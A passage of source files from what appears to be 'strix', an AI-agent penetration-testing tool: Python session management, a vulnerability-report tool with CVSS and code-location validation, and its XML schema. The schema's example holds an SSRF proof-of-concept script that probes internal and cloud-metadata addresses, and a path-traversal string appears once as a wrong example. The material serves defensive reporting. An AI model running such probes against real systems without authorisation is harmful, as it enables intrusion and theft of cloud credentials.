                    sys.stderr = stderr_capture
                    execution_result = self.shell.run_cell(code, silent=False, store_history=True)
                    result_container["execution_result"] = execution_result
                    result_container["stdout"] = stdout_capture.getvalue()
                    result_container["stderr"] = stderr_capture.getvalue()
                except (KeyboardInterrupt, SystemExit) as e:
                    result_container["error"] = e
                except Exception as e:  # noqa: BLE001
                    result_container["error"] = e
                finally:
                    if not cancelled.is_set():
                        sys.stdout = old_stdout
                        sys.stderr = old_stderr

            exec_thread = threading.Thread(target=_run_code, daemon=True)
            exec_thread.start()
            exec_thread.join(timeout=timeout)

            if exec_thread.is_alive():
                cancelled.set()
                sys.stdout, sys.stderr = old_stdout, old_stderr
                return self._handle_execution_error(
                    TimeoutError(f"Code execution timed out after {timeout} seconds")
                )

            if "error" in result_container:
                return self._handle_execution_error(result_container["error"])

            if "execution_result" in result_container:
                return self._format_execution_result(
                    result_container["execution_result"],
                    result_container.get("stdout", ""),
                    result_container.get("stderr", ""),
                )

            return self._handle_execution_error(RuntimeError("Unknown execution error"))

    def close(self) -> None:
        self.is_running = False
        self.shell.reset(new_session=False)

    def is_alive(self) -> bool:
        return self.is_running
```

## File: `strix/tools/python/python_manager.py`
```python
import atexit
import contextlib
import threading
from typing import Any

from strix.tools.context import get_current_agent_id

from .python_instance import PythonInstance


class PythonSessionManager:
    def __init__(self) -> None:
        self._sessions_by_agent: dict[str, dict[str, PythonInstance]] = {}
        self._lock = threading.Lock()
        self.default_session_id = "default"

        self._register_cleanup_handlers()

    def _get_agent_sessions(self) -> dict[str, PythonInstance]:
        agent_id = get_current_agent_id()
        with self._lock:
            if agent_id not in self._sessions_by_agent:
                self._sessions_by_agent[agent_id] = {}
            return self._sessions_by_agent[agent_id]

    def create_session(
        self, session_id: str | None = None, initial_code: str | None = None, timeout: int = 30
    ) -> dict[str, Any]:
        if session_id is None:
            session_id = self.default_session_id

        sessions = self._get_agent_sessions()
        with self._lock:
            if session_id in sessions:
                raise ValueError(f"Python session '{session_id}' already exists")

            session = PythonInstance(session_id)
            sessions[session_id] = session

            if initial_code:
                result = session.execute_code(initial_code, timeout)
                result["message"] = (
                    f"Python session '{session_id}' created successfully with initial code"
                )
            else:
                result = {
                    "session_id": session_id,
                    "message": f"Python session '{session_id}' created successfully",
                }

            return result

    def execute_code(
        self, session_id: str | None = None, code: str | None = None, timeout: int = 30
    ) -> dict[str, Any]:
        if session_id is None:
            session_id = self.default_session_id

        if not code:
            raise ValueError("No code provided for execution")

        sessions = self._get_agent_sessions()
        with self._lock:
            if session_id not in sessions:
                raise ValueError(f"Python session '{session_id}' not found")

            session = sessions[session_id]

        result = session.execute_code(code, timeout)
        result["message"] = f"Code executed in session '{session_id}'"
        return result

    def close_session(self, session_id: str | None = None) -> dict[str, Any]:
        if session_id is None:
            session_id = self.default_session_id

        sessions = self._get_agent_sessions()
        with self._lock:
            if session_id not in sessions:
                raise ValueError(f"Python session '{session_id}' not found")

            session = sessions.pop(session_id)

        session.close()
        return {
            "session_id": session_id,
            "message": f"Python session '{session_id}' closed successfully",
            "is_running": False,
        }

    def list_sessions(self) -> dict[str, Any]:
        sessions = self._get_agent_sessions()
        with self._lock:
            session_info = {}
            for sid, session in sessions.items():
                session_info[sid] = {
                    "is_running": session.is_running,
                    "is_alive": session.is_alive(),
                }

        return {"sessions": session_info, "total_count": len(session_info)}

    def cleanup_agent(self, agent_id: str) -> None:
        with self._lock:
            sessions = self._sessions_by_agent.pop(agent_id, {})

        for session in sessions.values():
            with contextlib.suppress(Exception):
                session.close()

    def cleanup_dead_sessions(self) -> None:
        with self._lock:
            for sessions in self._sessions_by_agent.values():
                dead_sessions = []
                for sid, session in sessions.items():
                    if not session.is_alive():
                        dead_sessions.append(sid)

                for sid in dead_sessions:
                    session = sessions.pop(sid)
                    with contextlib.suppress(Exception):
                        session.close()

    def close_all_sessions(self) -> None:
        with self._lock:
            all_sessions: list[PythonInstance] = []
            for sessions in self._sessions_by_agent.values():
                all_sessions.extend(sessions.values())
            self._sessions_by_agent.clear()

        for session in all_sessions:
            with contextlib.suppress(Exception):
                session.close()

    def _register_cleanup_handlers(self) -> None:
        atexit.register(self.close_all_sessions)


_python_session_manager = PythonSessionManager()


def get_python_session_manager() -> PythonSessionManager:
    return _python_session_manager
```

## File: `strix/tools/python/__init__.py`
```python
from .python_actions import python_action


__all__ = ["python_action"]
```

## File: `strix/tools/reporting/reporting_actions.py`
```python
import contextlib
import re
from pathlib import PurePosixPath
from typing import Any

from strix.tools.registry import register_tool


_CVSS_FIELDS = (
    "attack_vector",
    "attack_complexity",
    "privileges_required",
    "user_interaction",
    "scope",
    "confidentiality",
    "integrity",
    "availability",
)


def parse_cvss_xml(xml_str: str) -> dict[str, str] | None:
    if not xml_str or not xml_str.strip():
        return None
    result = {}
    for field in _CVSS_FIELDS:
        match = re.search(rf"<{field}>(.*?)</{field}>", xml_str, re.DOTALL)
        if match:
            result[field] = match.group(1).strip()
    return result if result else None


def parse_code_locations_xml(xml_str: str) -> list[dict[str, Any]] | None:
    if not xml_str or not xml_str.strip():
        return None
    locations = []
    for loc_match in re.finditer(r"<location>(.*?)</location>", xml_str, re.DOTALL):
        loc: dict[str, Any] = {}
        loc_content = loc_match.group(1)
        for field in (
            "file",
            "start_line",
            "end_line",
            "snippet",
            "label",
            "fix_before",
            "fix_after",
        ):
            field_match = re.search(rf"<{field}>(.*?)</{field}>", loc_content, re.DOTALL)
            if field_match:
                raw = field_match.group(1)
                value = (
                    raw.strip("\n")
                    if field in ("snippet", "fix_before", "fix_after")
                    else raw.strip()
                )
                if field in ("start_line", "end_line"):
                    with contextlib.suppress(ValueError, TypeError):
                        loc[field] = int(value)
                elif value:
                    loc[field] = value
        if loc.get("file") and loc.get("start_line") is not None:
            locations.append(loc)
    return locations if locations else None


def _validate_file_path(path: str) -> str | None:
    if not path or not path.strip():
        return "file path cannot be empty"
    p = PurePosixPath(path)
    if p.is_absolute():
        return f"file path must be relative, got absolute: '{path}'"
    if ".." in p.parts:
        return f"file path must not contain '..': '{path}'"
    return None


def _validate_code_locations(locations: list[dict[str, Any]]) -> list[str]:
    errors = []
    for i, loc in enumerate(locations):
        path_err = _validate_file_path(loc.get("file", ""))
        if path_err:
            errors.append(f"code_locations[{i}]: {path_err}")
        start = loc.get("start_line")
        if not isinstance(start, int) or start < 1:
            errors.append(f"code_locations[{i}]: start_line must be a positive integer")
        end = loc.get("end_line")
        if end is None:
            errors.append(f"code_locations[{i}]: end_line is required")
        elif not isinstance(end, int) or end < 1:
            errors.append(f"code_locations[{i}]: end_line must be a positive integer")
        elif isinstance(start, int) and end < start:
            errors.append(f"code_locations[{i}]: end_line ({end}) must be >= start_line ({start})")
    return errors


def _extract_cve(cve: str) -> str:
    match = re.search(r"CVE-\d{4}-\d{4,}", cve)
    return match.group(0) if match else cve.strip()


def _validate_cve(cve: str) -> str | None:
    if not re.match(r"^CVE-\d{4}-\d{4,}$", cve):
        return f"invalid CVE format: '{cve}' (expected 'CVE-YYYY-NNNNN')"
    return None


def _extract_cwe(cwe: str) -> str:
    match = re.search(r"CWE-\d+", cwe)
    return match.group(0) if match else cwe.strip()


def _validate_cwe(cwe: str) -> str | None:
    if not re.match(r"^CWE-\d+$", cwe):
        return f"invalid CWE format: '{cwe}' (expected 'CWE-NNN')"
    return None


def calculate_cvss_and_severity(
    attack_vector: str,
    attack_complexity: str,
    privileges_required: str,
    user_interaction: str,
    scope: str,
    confidentiality: str,
    integrity: str,
    availability: str,
) -> tuple[float, str, str]:
    try:
        from cvss import CVSS3

        vector = (
            f"CVSS:3.1/AV:{attack_vector}/AC:{attack_complexity}/"
            f"PR:{privileges_required}/UI:{user_interaction}/S:{scope}/"
            f"C:{confidentiality}/I:{integrity}/A:{availability}"
        )

        c = CVSS3(vector)
        scores = c.scores()
        severities = c.severities()

        base_score = scores[0]
        base_severity = severities[0]

        severity = base_severity.lower()

    except Exception:
        import logging

        logging.exception("Failed to calculate CVSS")
        return 7.5, "high", ""
    else:
        return base_score, severity, vector


def _validate_required_fields(**kwargs: str | None) -> list[str]:
    validation_errors: list[str] = []

    required_fields = {
        "title": "Title cannot be empty",
        "description": "Description cannot be empty",
        "impact": "Impact cannot be empty",
        "target": "Target cannot be empty",
        "technical_analysis": "Technical analysis cannot be empty",
        "poc_description": "PoC description cannot be empty",
        "poc_script_code": "PoC script/code is REQUIRED - provide the actual exploit/payload",
        "remediation_steps": "Remediation steps cannot be empty",
    }

    for field_name, error_msg in required_fields.items():
        value = kwargs.get(field_name)
        if not value or not str(value).strip():
            validation_errors.append(error_msg)

    return validation_errors


def _validate_cvss_parameters(**kwargs: str) -> list[str]:
    validation_errors: list[str] = []

    cvss_validations = {
        "attack_vector": ["N", "A", "L", "P"],
        "attack_complexity": ["L", "H"],
        "privileges_required": ["N", "L", "H"],
        "user_interaction": ["N", "R"],
        "scope": ["U", "C"],
        "confidentiality": ["N", "L", "H"],
        "integrity": ["N", "L", "H"],
        "availability": ["N", "L", "H"],
    }

    for param_name, valid_values in cvss_validations.items():
        value = kwargs.get(param_name)
        if value not in valid_values:
            validation_errors.append(
                f"Invalid {param_name}: {value}. Must be one of: {valid_values}"
            )

    return validation_errors


@register_tool(sandbox_execution=False)
def create_vulnerability_report(  # noqa: PLR0912
    title: str,
    description: str,
    impact: str,
    target: str,
    technical_analysis: str,
    poc_description: str,
    poc_script_code: str,
    remediation_steps: str,
    cvss_breakdown: str,
    endpoint: str | None = None,
    method: str | None = None,
    cve: str | None = None,
    cwe: str | None = None,
    code_locations: str | None = None,
) -> dict[str, Any]:
    validation_errors = _validate_required_fields(
        title=title,
        description=description,
        impact=impact,
        target=target,
        technical_analysis=technical_analysis,
        poc_description=poc_description,
        poc_script_code=poc_script_code,
        remediation_steps=remediation_steps,
    )

    parsed_cvss = parse_cvss_xml(cvss_breakdown)
    if not parsed_cvss:
        validation_errors.append("cvss: could not parse CVSS breakdown XML")
    else:
        validation_errors.extend(_validate_cvss_parameters(**parsed_cvss))

    parsed_locations = parse_code_locations_xml(code_locations) if code_locations else None

    if parsed_locations:
        validation_errors.extend(_validate_code_locations(parsed_locations))
    if cve:
        cve = _extract_cve(cve)
        cve_err = _validate_cve(cve)
        if cve_err:
            validation_errors.append(cve_err)
    if cwe:
        cwe = _extract_cwe(cwe)
        cwe_err = _validate_cwe(cwe)
        if cwe_err:
            validation_errors.append(cwe_err)

    if validation_errors:
        return {"success": False, "message": "Validation failed", "errors": validation_errors}

    assert parsed_cvss is not None
    cvss_score, severity, cvss_vector = calculate_cvss_and_severity(**parsed_cvss)

    try:
        from strix.telemetry.tracer import get_global_tracer

        tracer = get_global_tracer()
        if tracer:
            from strix.llm.dedupe import check_duplicate

            existing_reports = tracer.get_existing_vulnerabilities()

            candidate = {
                "title": title,
                "description": description,
                "impact": impact,
                "target": target,
                "technical_analysis": technical_analysis,
                "poc_description": poc_description,
                "poc_script_code": poc_script_code,
                "endpoint": endpoint,
                "method": method,
            }

            dedupe_result = check_duplicate(candidate, existing_reports)

            if dedupe_result.get("is_duplicate"):
                duplicate_id = dedupe_result.get("duplicate_id", "")

                duplicate_title = ""
                for report in existing_reports:
                    if report.get("id") == duplicate_id:
                        duplicate_title = report.get("title", "Unknown")
                        break

                return {
                    "success": False,
                    "message": (
                        f"Potential duplicate of '{duplicate_title}' "
                        f"(id={duplicate_id[:8]}...). Do not re-report the same vulnerability."
                    ),
                    "duplicate_of": duplicate_id,
                    "duplicate_title": duplicate_title,
                    "confidence": dedupe_result.get("confidence", 0.0),
                    "reason": dedupe_result.get("reason", ""),
                }

            report_id = tracer.add_vulnerability_report(
                title=title,
                description=description,
                severity=severity,
                impact=impact,
                target=target,
                technical_analysis=technical_analysis,
                poc_description=poc_description,
                poc_script_code=poc_script_code,
                remediation_steps=remediation_steps,
                cvss=cvss_score,
                cvss_breakdown=parsed_cvss,
                endpoint=endpoint,
                method=method,
                cve=cve,
                cwe=cwe,
                code_locations=parsed_locations,
            )

            return {
                "success": True,
                "message": f"Vulnerability report '{title}' created successfully",
                "report_id": report_id,
                "severity": severity,
                "cvss_score": cvss_score,
            }

        import logging

        logging.warning("Current tracer not available - vulnerability report not stored")

    except (ImportError, AttributeError) as e:
        return {"success": False, "message": f"Failed to create vulnerability report: {e!s}"}
    else:
        return {
            "success": True,
            "message": f"Vulnerability report '{title}' created (not persisted)",
            "warning": "Report could not be persisted - tracer unavailable",
        }
```

## File: `strix/tools/reporting/reporting_actions_schema.xml`
```xml
<tools>
  <tool name="create_vulnerability_report">
    <description>Create a vulnerability report for a discovered security issue.

IMPORTANT: This tool includes automatic LLM-based deduplication. Reports that describe the same vulnerability (same root cause on the same asset) as an existing report will be rejected.

Use this tool to document a specific fully verified security vulnerability.

DO NOT USE:
- For general security observations without specific vulnerabilities
- When you don't have concrete vulnerability details
- When you don't have a proof of concept, or still not 100% sure if it's a vulnerability
- For tracking multiple vulnerabilities (create separate reports)
- For reporting multiple vulnerabilities at once. Use a separate create_vulnerability_report for each vulnerability.
- To re-report a vulnerability that was already reported (even with different details)

White-box requirement (when you have access to the code): You MUST include code_locations with nested XML, including fix_before/fix_after on locations where a fix is proposed.

DEDUPLICATION: If this tool returns with success=false and mentions a duplicate, DO NOT attempt to re-submit. The vulnerability has already been reported. Move on to testing other areas.

Professional, customer-facing report rules (PDF-ready):
- Do NOT include internal or system details: never mention local or absolute paths (e.g., "/workspace"), internal tools, agents, orchestrators, sandboxes, models, system prompts/instructions, connection issues, internal errors/logs/stack traces, or tester machine environment details.
- Tone and style: formal, objective, third-person, vendor-neutral, concise. No runbooks, checklists, or engineering notes. Avoid headings like "QUICK", "Approach", or "Techniques" that read like internal guidance.
- Use a standard penetration testing report structure per finding:
  1) Overview
  2) Severity and CVSS (vector only)
  3) Affected asset(s)
  4) Technical details
  5) Proof of concept (repro steps plus code)
  6) Impact
  7) Remediation
  8) Evidence (optional request/response excerpts, etc.) in the technical analysis field.
- Numbered steps are allowed ONLY within the proof of concept and remediation sections. Elsewhere, use clear, concise paragraphs suitable for customer-facing reports.
- Language must be precise and non-vague; avoid hedging.
</description>
    <parameters>
      <parameter name="title" type="string" required="true">
        <description>Clear, specific title (e.g., "SQL Injection in /api/users Login Parameter"). But not too long. Don't mention CVE number in the title.</description>
      </parameter>
      <parameter name="description" type="string" required="true">
        <description>Comprehensive description of the vulnerability and how it was discovered</description>
      </parameter>
      <parameter name="impact" type="string" required="true">
        <description>Impact assessment: what attacker can do, business risk, data at risk</description>
      </parameter>
      <parameter name="target" type="string" required="true">
        <description>Affected target: URL, domain, or Git repository</description>
      </parameter>
      <parameter name="technical_analysis" type="string" required="true">
        <description>Technical explanation of the vulnerability mechanism and root cause</description>
      </parameter>
      <parameter name="poc_description" type="string" required="true">
        <description>Step-by-step instructions to reproduce the vulnerability</description>
      </parameter>
      <parameter name="poc_script_code" type="string" required="true">
        <description>Actual proof of concept code, exploit, payload, or script that demonstrates the vulnerability. Python code.</description>
      </parameter>
      <parameter name="remediation_steps" type="string" required="true">
        <description>Specific, actionable steps to fix the vulnerability</description>
      </parameter>
      <parameter name="cvss_breakdown" type="string" required="true">
        <description>CVSS 3.1 base score breakdown as nested XML. All 8 metrics are required.

Each metric element contains a single uppercase letter value:
- attack_vector: N (Network), A (Adjacent), L (Local), P (Physical)
- attack_complexity: L (Low), H (High)
- privileges_required: N (None), L (Low), H (High)
- user_interaction: N (None), R (Required)
- scope: U (Unchanged), C (Changed)
- confidentiality: N (None), L (Low), H (High)
- integrity: N (None), L (Low), H (High)
- availability: N (None), L (Low), H (High)</description>
        <format>
          <attack_vector>N</attack_vector>
          <attack_complexity>L</attack_complexity>
          <privileges_required>N</privileges_required>
          <user_interaction>N</user_interaction>
          <scope>U</scope>
          <confidentiality>H</confidentiality>
          <integrity>H</integrity>
          <availability>N</availability>
        </format>
      </parameter>
      <parameter name="endpoint" type="string" required="false">
        <description>API endpoint(s) or URL path(s) (e.g., "/api/login") - for web vulnerabilities, or Git repository path(s) - for code vulnerabilities</description>
      </parameter>
      <parameter name="method" type="string" required="false">
        <description>HTTP method(s) (GET, POST, etc.) - for web vulnerabilities.</description>
      </parameter>
      <parameter name="cve" type="string" required="false">
        <description>CVE identifier. ONLY the ID, e.g. "CVE-2024-1234" — do NOT include the name or description.
You must be 100% certain of the exact CVE number. Do NOT guess, approximate, or hallucinate CVE IDs.
If web_search is available, use it to verify the CVE exists and matches this vulnerability. If you cannot verify it, omit this field entirely.</description>
      </parameter>
      <parameter name="cwe" type="string" required="false">
        <description>CWE identifier. ONLY the ID, e.g. "CWE-89" — do NOT include the name or parenthetical (wrong: "CWE-89 (SQL Injection)").

You must be 100% certain of the exact CWE number. Do NOT guess or approximate.
If web_search is available and you are unsure, use it to look up the correct CWE. If you cannot be certain, omit this field entirely.
Always prefer the most specific child CWE over a broad parent.
For example, use CWE-89 instead of CWE-74, or CWE-78 instead of CWE-77.

Reference (ID only — names here are just for your reference, do NOT include them in the value):
- Injection: CWE-79 XSS, CWE-89 SQLi, CWE-78 OS Command Injection, CWE-94 Code Injection, CWE-77 Command Injection
- Auth/Access: CWE-287 Improper Authentication, CWE-862 Missing Authorization, CWE-863 Incorrect Authorization, CWE-306 Missing Authentication for Critical Function, CWE-639 Authorization Bypass Through User-Controlled Key
- Web: CWE-352 CSRF, CWE-918 SSRF, CWE-601 Open Redirect, CWE-434 Unrestricted Upload of File with Dangerous Type
- Memory: CWE-787 Out-of-bounds Write, CWE-125 Out-of-bounds Read, CWE-416 Use After Free, CWE-120 Classic Buffer Overflow
- Data: CWE-502 Deserialization of Untrusted Data, CWE-22 Path Traversal, CWE-611 XXE
- Crypto/Config: CWE-798 Use of Hard-coded Credentials, CWE-327 Use of Broken or Risky Cryptographic Algorithm, CWE-311 Missing Encryption of Sensitive Data, CWE-916 Password Hash With Insufficient Computational Effort

Do NOT use broad/parent CWEs like CWE-74, CWE-20, CWE-200, CWE-284, or CWE-693.</description>
      </parameter>
      <parameter name="code_locations" type="string" required="false">
        <description>Nested XML list of code locations where the vulnerability exists. MANDATORY for white-box testing.

CRITICAL — HOW fix_before/fix_after WORK:
fix_before and fix_after are LITERAL BLOCK-LEVEL REPLACEMENTS used directly for GitHub/GitLab PR suggestion blocks. When a reviewer clicks "Accept suggestion", the platform replaces the EXACT lines from start_line to end_line with the fix_after content. This means:

1. fix_before MUST be an EXACT, VERBATIM copy of the source code at lines start_line through end_line. Same whitespace, same indentation, same line breaks. If fix_before does not match the actual file content character-for-character, the suggestion will be wrong or will corrupt the code when accepted.

2. fix_after is the COMPLETE replacement for that entire block. It replaces ALL lines from start_line to end_line. It can be more lines, fewer lines, or the same number of lines as fix_before.

3. start_line and end_line define the EXACT line range being replaced. They must precisely cover the lines in fix_before — no more, no less. If the vulnerable code spans lines 45-48, then start_line=45 and end_line=48, and fix_before must contain all 4 lines exactly as they appear in the file.

MULTI-PART FIXES:
Many fixes require changes in multiple non-contiguous parts of a file (e.g., adding an import at the top AND changing code lower down), or across multiple files. Since each fix_before/fix_after pair covers ONE contiguous block, you MUST create SEPARATE location entries for each part of the fix:

- Each location covers one contiguous block of lines to change
- Use the label field to describe how each part relates to the overall fix (e.g., "Add import for parameterized query library", "Replace string interpolation with parameterized query")
- Order fix locations logically: primary fix first (where the vulnerability manifests), then supporting changes (imports, config, etc.)

COMMON MISTAKES TO AVOID:
- Do NOT guess line numbers. Read the file and verify the exact lines before reporting.
- Do NOT paraphrase or reformat code in fix_before. It must be a verbatim copy.
- Do NOT set start_line=end_line when the vulnerable code spans multiple lines. Cover the full range.
- Do NOT put an import addition and a code change in the same fix_before/fix_after if they are not on adjacent lines. Split them into separate locations.
- Do NOT include lines outside the vulnerable/fixed code in fix_before just to "pad" the range.
- Do NOT duplicate changes across locations. Each location's fix_after must ONLY contain changes for its own line range. Never repeat a change that is already covered by another location.

Each location element fields:
- file (REQUIRED): Path relative to repository root. No leading slash, no absolute paths, no ".." traversal.
  Correct: "src/db/queries.ts" or "app/routes/users.py"
  Wrong: "/workspace/repo/src/db/queries.ts", "./src/db/queries.ts", "../../etc/passwd"
- start_line (REQUIRED): Exact 1-based line number where the vulnerable/affected code begins. Must be a positive integer. You must be certain of this number — go back and verify against the actual file content if needed.
- end_line (REQUIRED): Exact 1-based line number where the vulnerable/affected code ends. Must be >= start_line. Set equal to start_line ONLY if the code is truly on a single line.
- snippet (optional): The actual source code at this location, copied verbatim from the file.
- label (optional): Short role description for this location. For multi-part fixes, use this to explain the purpose of each change (e.g., "Add import for escape utility", "Sanitize user input before SQL query").
- fix_before (optional): The vulnerable code to be replaced — VERBATIM copy of lines start_line through end_line. Must match the actual source character-for-character including whitespace and indentation.
- fix_after (optional): The corrected code that replaces the entire fix_before block. Must be syntactically valid and ready to apply as a direct replacement.

Locations without fix_before/fix_after are informational context (e.g. showing the source of tainted data).
Locations with fix_before/fix_after are actionable fixes (used directly for PR suggestion blocks).</description>
        <format>
          <location>
            <file>src/db/queries.ts</file>
            <start_line>42</start_line>
            <end_line>45</end_line>
            <snippet>const query = (
    `SELECT * FROM users ` +
    `WHERE id = ${id}`
);</snippet>
            <label>Unsanitized input used in SQL query (sink)</label>
            <fix_before>const query = (
    `SELECT * FROM users ` +
    `WHERE id = ${id}`
);</fix_before>
            <fix_after>const query = 'SELECT * FROM users WHERE id = $1';
const result = await db.query(query, [id]);</fix_after>
          </location>
          <location>
            <file>src/routes/users.ts</file>
            <start_line>15</start_line>
            <end_line>15</end_line>
            <snippet>const id = req.params.id</snippet>
            <label>User input from request parameter (source)</label>
          </location>
        </format>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing:
- On success: success=true, message, report_id, severity, cvss_score
- On duplicate detection: success=false, message (with duplicate info), duplicate_of (ID), duplicate_title, confidence (0-1), reason (why it's a duplicate)</description>
    </returns>

    <examples>
<function=create_vulnerability_report>
<parameter=title>Server-Side Request Forgery (SSRF) via URL Preview Feature Enables Internal Network Access</parameter>
<parameter=description>A server-side request forgery (SSRF) vulnerability was identified in the URL preview feature that generates rich previews for user-supplied links.

The application performs server-side HTTP requests to retrieve metadata (title, description, thumbnails). Insufficient validation of the destination allows an attacker to coerce the server into making requests to internal network hosts and link-local addresses that are not directly reachable from the internet.

This issue is particularly high risk in cloud-hosted environments where link-local metadata services may expose sensitive information (e.g., instance identifiers, temporary credentials) if reachable from the application runtime.</parameter>
<parameter=impact>Successful exploitation may allow an attacker to:

- Reach internal-only services (admin panels, service discovery endpoints, unauthenticated microservices)
- Enumerate internal network topology based on timing and response differences
- Access link-local services that should never be reachable from user input paths
- Potentially retrieve sensitive configuration data and temporary credentials in certain hosting environments

Business impact includes increased likelihood of lateral movement, data exposure from internal systems, and compromise of cloud resources if credentials are obtained.</parameter>
<parameter=target>https://app.acme-corp.com</parameter>
<parameter=technical_analysis>The vulnerable behavior occurs when the application accepts a user-controlled URL and fetches it server-side to generate a preview. The response body and/or selected metadata fields are then returned to the client.

Observed security gaps:
- No robust allowlist of approved outbound domains
- No effective blocking of private, loopback, and link-local address ranges
- Redirect handling can be leveraged to reach disallowed destinations if not revalidated after following redirects
- DNS resolution and IP validation appear to occur without normalization safeguards, creating bypass risk (e.g., encoded IPs, mixed IPv6 notation, DNS rebinding scenarios)

As a result, an attacker can supply a URL that resolves to an internal destination. The server performs the request from a privileged network position, and the attacker can infer results via returned preview content or measurable response differences.</parameter>
<parameter=poc_description>To reproduce:

1. Authenticate to the application as a standard user.
2. Navigate to the link preview feature (e.g., “Add Link”, “Preview URL”, or equivalent UI).
3. Submit a URL pointing to an internal resource. Example payloads:

   - http://127.0.0.1:80/
   - http://localhost:8080/
   - http://10.0.0.1:80/
   - http://169.254.169.254/ (link-local)

4. Observe that the server attempts to fetch the destination and returns either:
   - Preview content/metadata from the target, or
   - Error/timing differences that confirm network reachability.

Impact validation:
- Use a controlled internal endpoint (or a benign endpoint that returns a distinct marker) to demonstrate that the request is performed by the server, not the client.
- If the application follows redirects, validate whether an allowlisted URL can redirect to a disallowed destination, and whether the redirected-to destination is still fetched.</parameter>
<parameter=poc_script_code>import json
import time
from urllib.parse import urljoin

import requests

BASE = "https://app.acme-corp.com"
PREVIEW_ENDPOINT = urljoin(BASE, "/api/v1/link-preview")

SESSION_COOKIE = ""  # Set to your authenticated session cookie value if needed

TARGETS = [
    "http://127.0.0.1:80/",
    "http://localhost:8080/",
    "http://10.0.0.1:80/",
    "http://169.254.169.254/",
]


def preview(url: str) -> tuple[int, float, str]:
    headers = {
        "Content-Type": "application/json",
    }
    cookies = {}
    if SESSION_COOKIE:
        cookies["session"] = SESSION_COOKIE

    payload = {"url": url}
    start = time.time()
    resp = requests.post(PREVIEW_ENDPOINT, headers=headers, cookies=cookies, data=json.dumps(payload), timeout=15)
    elapsed = time.time() - start

    body = resp.text
    snippet = body[:500]
    return resp.status_code, elapsed, snippet


def main() -> int:
    print(f"Endpoint: {PREVIEW_ENDPOINT}")
    print("Testing SSRF candidates (server-side fetch behavior):")
    print()

    for url in TARGETS:
        try:
            status, elapsed, snippet = preview(url)
            print(f"URL: {url}")
            print(f"Status: {status}")
            print(f"Elapsed: {elapsed:.2f}s")
            print("Body (first 500 chars):")
            print(snippet)
            print("-" * 60)
        except requests.RequestException as e:
            print(f"URL: {url}")
            print(f"Request failed: {e}")
            print("-" * 60)

    return 0


if __name__ == "__main__":
    raise SystemExit(main())</parameter>
<parameter=remediation_steps>Implement layered SSRF defenses:

1. Explicit allowlist for outbound destinations
   - Only permit fetching from a maintained set of approved domains (and required schemes).
   - Reject all other destinations by default.

2. Robust IP range blocking after DNS resolution
   - Resolve the hostname and block private, loopback, link-local, and reserved ranges for both IPv4 and IPv6.
   - Re-validate on every redirect hop; do not follow redirects to disallowed destinations.

3. URL normalization and parser hardening
   - Normalize and validate the URL using a strict parser.
   - Reject ambiguous encodings and unusual notations that can bypass filters.

4. Network egress controls (defense in depth)
   - Enforce outbound firewall rules so the application runtime cannot reach sensitive internal ranges or link-local addresses.
   - If previews are required, route outbound requests through a dedicated egress proxy with policy enforcement and auditing.

5. Response handling hardening
   - Avoid returning raw response bodies from previews.
   - Strictly limit what metadata is returned and apply size/time limits to outbound fetches.

6. Monitoring and alerting
   - Log and alert on preview attempts to unusual destinations, repeated failures, high-frequency requests, or attempts to access blocked ranges.</parameter>
<parameter=cvss_breakdown>
  <attack_vector>N</attack_vector>
  <attack_complexity>L</attack_complexity>
  <privileges_required>L</privileges_required>
  <user_interaction>N</user_interaction>
  <scope>C</scope>
  <confidentiality>H</confidentiality>
  <integrity>H</integrity>
  <availability>L</availability>
</parameter>
<parameter=endpoint>/api/v1/link-preview</parameter>
<parameter=method>POST</parameter>
<parameter=cwe>CWE-918</parameter>
<parameter=code_locations>
  <location>
    <file>src/services/link-preview.ts</file>
    <start_line>45</start_line>
    <end_line>48</end_line>
    <snippet>  const options = { timeout: 5000 };
  const response = await fetch(userUrl, options);
  const html = await response.text();
  return extractMetadata(html);</snippet>
    <label>Unvalidated user URL passed to server-side fetch (sink)</label>
    <fix_before>  const options = { timeout: 5000 };
  const response = await fetch(userUrl, options);
  const html = await response.text();
  return extractMetadata(html);</fix_before>
    <fix_after>  const validated = await validateAndResolveUrl(userUrl);
  if (!validated) throw new ForbiddenError('URL not allowed');
  const options = { timeout: 5000 };
  const response = await fetch(validated, options);
  const html = await response.text();
  return extractMetadata(html);</fix_after>
  </location>
  <location>
    <file>src/services/link-preview.ts</file>
    <start_line>2</start_line>
    <end_line>2</end_line>
    <snippet>import { extractMetadata } from '../utils/html';</snippet>
    <label>Add import for URL validation utility</label>
    <fix_before>import { extractMetadata } from '../utils/html';</fix_before>
    <fix_after>import { extractMetadata } from '../utils/html';
import { validateAndResolveUrl } from '../utils/url-validator';</fix_after>
  </location>
  <location>
    <file>src/routes/api/v1/links.ts</file>
    <start_line>12</start_line>
    <end_line>12</end_line>
    <snippet>const userUrl = req.body.url</snippet>
    <label>User-controlled URL from request body (source)</label>
  </location>
</parameter>
</function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/reporting/__init__.py`
```python
from .reporting_actions import create_vulnerability_report


__all__ = [
    "create_vulnerability_report",
]
```

## File: `strix/tools/terminal/terminal_actions.py`
```python
from typing import Any

from strix.tools.registry import register_tool


@register_tool
def terminal_execute(
    command: str,
    is_input: bool = False,
    timeout: float | None = None,
    terminal_id: str | None = None,
    no_enter: bool = False,
) -> dict[str, Any]:
    from .terminal_manager import get_terminal_manager

    manager = get_terminal_manager()

    try:
        return manager.execute_command(
            command=command,
            is_input=is_input,
            timeout=timeout,
            terminal_id=terminal_id,
            no_enter=no_enter,
        )
    except (ValueError, RuntimeError) as e:
        return {
            "error": str(e),
            "command": command,
            "terminal_id": terminal_id or "default",
            "content": "",
            "status": "error",
            "exit_code": None,
            "working_dir": None,
        }
```

## File: `strix/tools/terminal/terminal_actions_schema.xml`
```xml
<tools>
  <tool name="terminal_execute">
    <description>Execute a bash command in a persistent terminal session. The terminal maintains state (environment variables, current directory, running processes) between commands.</description>
    <parameters>
      <parameter name="command" type="string" required="true">
        <description>The bash command to execute. Can be empty to check output of running commands (will wait for timeout period to collect output).

        Supported special keys and sequences (based on official tmux key names):
        - Control sequences: C-c, C-d, C-z, C-a, C-e, C-k, C-l, C-u, C-w, etc. (also ^c, ^d, etc.)
        - Navigation keys: Up, Down, Left, Right, Home, End
        - Page keys: PageUp, PageDown, PgUp, PgDn, PPage, NPage
        - Function keys: F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12
        - Special keys: Enter, Escape, Space, Tab, BTab, BSpace, DC, IC
        - Note: Use official tmux names (BSpace not Backspace, DC not Delete, IC not Insert, Escape not Esc)
